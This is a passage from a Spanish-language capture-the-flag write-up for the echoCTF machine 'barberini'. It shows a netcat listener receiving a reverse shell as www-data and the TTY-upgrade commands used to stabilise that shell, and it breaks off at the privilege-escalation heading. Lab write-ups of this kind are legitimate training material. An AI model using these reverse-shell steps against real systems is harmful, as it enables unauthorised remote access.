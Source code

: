 Luego, verifiqu&eacute; que la m&aacute;quina tuviera Netcat instalado utilizando el comando **which nc** y proced&iacute;­ a enviar una reverse shell con Netcat

![](/assets/images/echoCTF-writeup-barberini/rs.png)

```bash
┌──(root@kali)-[/opt/Reverse Shell]
└─# nc -lvp 443  
listening on [any] 443 ...
10.0.30.0: inverse host lookup failed: Unknown host
connect to [10.10.5.110] from (UNKNOWN) [10.0.30.0] 40860
```

Para trabajar de manera m&aacute;s c&oacute;moda, realic&eacute; un ajuste en la TTY

```bash
┌──(root@kali)-[/opt/Reverse Shell]
└─# nc -lvp 443  
listening on [any] 443 ...
10.0.30.0: inverse host lookup failed: Unknown host
connect to [10.10.5.110] from (UNKNOWN) [10.0.30.0] 40860
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@barberini:~/html$ ^Z
zsh: suspended  nc -lvp 443
                                                                                                                                   
┌──(root@kali)-[/opt/Reverse Shell]
└─# stty raw -echo; fg   
[1]  + continued  nc -lvp 443
                             reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@barberini:~/html$ export TERM=xterm
www-data@barberini:~/html$ export SHELL=bash
www-data@barberini:~/html$ 
```

## Escalada de privilegios
